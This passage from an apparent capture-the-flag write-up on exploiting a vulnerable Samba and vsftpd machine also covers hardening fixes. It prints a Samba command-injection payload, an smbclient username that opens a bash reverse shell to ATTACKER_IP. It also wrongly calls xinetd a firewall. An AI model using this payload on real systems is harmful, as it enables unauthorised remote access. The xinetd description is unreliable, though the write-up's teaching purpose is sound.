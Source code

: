 ```
This exploits a command execution vulnerability in *Samba version 3.0.20* through 3.0.25rc3 when using the non-default "username map script" configuration option. By specifying a username containing shell meta characters, attackers can execute arbitrary commands. No authentication is needed to exploit this vulnerability since this option is used to map usernames prior to authentication.

`smbclient //192.168.1.100/shared_folder -U "/=nohup bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1"`

While performing login through smbclient, we can provide the following string *"/=nohup bash -i >& /dev/tcp/Attacker_IP/4444 0>&1* to spawn a reverse shell on our IP at 4444 port number. The value */=nohup* makes all this possible. 

___
## BONUS: Why vsftpd exploit was not working

Once I got the root access and when I was finished with the flags, I wanted to see that why vsftpd's exploit was not working. It is out of the scope of machine-pwning, but it is always a good practice to see where you went wrong. I started scanning the ports that were listening within the system, and now I am inside the target so I might see more listening ports than the output we got from nmap. It is because some of the ports might be filtered by firewall and standard nmap scan will not display them.

I performed the following command on the target system to look for listening ports:
`netstat -tnlp`

**Command Explaination:**
1. **netstat:** a network utility used to display network connections, routing tables, interface statistics, and multicast memberships.
2. **-t:** displaying TCP connections
3. **-n:** Displays numerical addresses and port numbers
4. **-l:** Filters the output to show listening ports
5. **-p:** This option shows the process ID (PID) and the name of the program that is using each socket

![](images-lame/12.png)

On the above image, I have marked a specific port with red line. It is port 21, which we saw during the nmap scan as **vsftpd**, but here we can see that the PID and name shown is **5440 and xinetd**. Weird, right? We were able to access ftp when we tried anonymous login, but there is no vsftpd here, why? I had a slight doubt, that this service is a firewall and after some googling, I was confirmed that **xinetd** is a firewall, that uses things like TCP wrapper to avoid malicious connections on a port or service. When an organization is running a vulnerable port/service, but they cannot update it due to the dependencies of other things on it, they generally cover the port with a firewall service that will avoid malicious traffic coming at the port. Fortunately, for us we are already inside the target and hence we can use vsftpd's exploit from within. 

## Vulnerabilities fix

We found 3 known vulnerabilities while pwning the system, I will here also refer on how to avoid these vulnerabilities and make your system stronger. 

### FTP anonymous login
Anonymous login gave us nothing here, but many a times it can be dangerous. Best practice is to disable anonymous login from the configuration file of vsftpd or any other ftp service. I have attached an image below with a configuration file that do not allow anonymous login.

![](images-lame/14.png)


As shown in the image, the configuration file has `anonymous_enable=NO` which will disable anonymous login over ftp service.

### FTP CVE-2011-2523

```